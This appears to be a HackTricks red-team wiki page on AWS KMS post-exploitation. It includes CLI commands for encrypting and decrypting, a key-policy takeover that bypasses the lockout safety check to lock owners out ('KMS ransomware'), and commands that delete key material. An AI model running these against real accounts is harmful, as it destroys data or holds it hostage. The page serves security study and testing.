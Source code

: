 # AWS - KMS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

For more information check:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Encrypt/Decrypt information

{% hint style="success" %}
Note that if you want to decrypt some data inside a file, the file must contain the binary data, not base64 encoded data.
{% endhint %}

* Using a **symmetric** key

```bash
# Encrypt data
aws kms encrypt \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --output text \
    --query Plaintext | base64 \
    --decode
```

* Using a **asymmetric** key:

```bash
# Encrypt data
aws kms encrypt \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --output text \
    --query Plaintext | base64 \
    --decode
```

### KMS Ransomware

An attacker with privileged access over KMS could modify the KMS policy of keys and **grant his account access over them**, removing the access granted to the legit account.

Then, the legit account users won't be able to access any informatcion of any service taht has been encrypted with those keys, creating an easy but effective ransomware over the account.

{% hint style="warning" %}
Note that **AWS managed keys aren't affected** by this attack, only **Customer managed keys**.

Also note the need to use the param **`--bypass-policy-lockout-safety-check`** (the lack of this option in the web console makes this attack only possible from the CLI).
{% endhint %}

```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
    --policy-name default \
    --policy file:///tmp/policy.yaml \
    --bypass-policy-lockout-safety-check

{
    "Id": "key-consolepolicy-3",
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<your_own_account>:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

{% hint style="danger" %}
Note that if you change that policy and only give access to an external account, and then from this external account you try to set a new policy to **give the access back to original account, you won't be able**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

There is another way to perform a global KMS Ransomware, which would involve the following steps:

* Create a new **key with a key material** imported by the attacker
* **Re-encrypt older data** encrypted with the previous version with the new one.
* **Delete the KMS key**
* Now only the attacker, who has the original key material could be able to decrypt the encrypted data

### Destroy keys

```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
    --key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
    --pending-window-in-days 7
```

{% hint style="danger" %}
Note that AWS now **prevents the previous actions from being performed from a cross account:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
